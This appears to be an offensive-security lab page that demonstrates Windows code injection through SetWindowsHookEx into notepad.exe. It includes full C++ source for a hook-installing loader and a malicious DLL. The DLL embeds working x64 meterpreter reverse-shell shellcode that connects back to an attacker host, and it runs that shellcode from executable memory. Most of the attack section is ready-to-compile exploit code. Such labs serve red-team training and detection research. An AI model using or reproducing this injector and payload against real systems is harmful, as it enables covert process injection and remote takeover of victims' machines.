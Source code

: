 # SetWindowHookEx Code Injection

Windows allow programs to install hooks to monitor various system events such as mouse clicks and keyboard key presses by using `SetWindowHookEx`.

In this lab `SetWindowHookEx` is used to inject a malicious DLL into notepad.exe, which then executes  meterpreter shellcode.

## Overview

The workflow of the technique is as follows:

1. Create a malicious DLL that exports one function, which when invoked, executes meterpreter shellcode
2. Create another program that loads the malicious binary by:
   1. Resolving address of the exported function
   2. Installing a keyboard hook. The hook is then pointed to the exported function
3. Notepad.exe is launched by the victim and a keypress is registered
4. Since keyboard events are hooked, notepad.exe loads in our malicious dll and invokes the exported function
5. Metepreter session is established on the attacking system

## Execution

Let's create a DLL with an export a function `spotlessExport` that executes meterpreter shellcode when invoked:

![](../../.gitbook/assets/annotation-2019-05-28-220920.png)

Compile the DLL and check if the export was successful. We can use `dumpbin.exe` to do this, but first we need to find it \(if we have Visual Studio installed\):

```csharp
cmd /c dir /s/b c:\dumpbin*
```

![](../../.gitbook/assets/annotation-2019-05-28-221427.png)

Then use it like so to dump the exported functions:

```text
dumpbin.exe dllhook.dll /exports
```

Below shows the output of exported functions for `dllhook.dll` as presented by `CFF Explorer` \(left\) and dumpin:

![](../../.gitbook/assets/annotation-2019-05-28-221340.png)

## Demo

Below shows the technique in action:

* Process Explorer \(top right\) with notepad \(bottom right\) selected
* In the middle - the code that installs the hook to all threads that are in the same desktop as the calling thread
* Attacking system with multi-handler on the left - ready to catch the meterpreter
* Once the hook is installed and a key is pressed in when notepad is in focus, `dllhook.dll` is loaded into `notepad.exe` process and our malicious exported function `exportedSpotless` is executed, which in turn results in a meterpreter shell

![](../../.gitbook/assets/hookdll.gif)

## Code

Both `hooks.cpp` and `dllhook.cpp` are provided below:

{% code-tabs %}
{% code-tabs-item title="hooks.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("dllhook.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
	Sleep(10*1000);
	UnhookWindowsHookEx(hook);

	return 0;
}
```
{% endcode-tabs-item %}

{% code-tabs-item title="dllhook.cpp" %}
```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-setwindowshookexa" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=vs-2019" %}

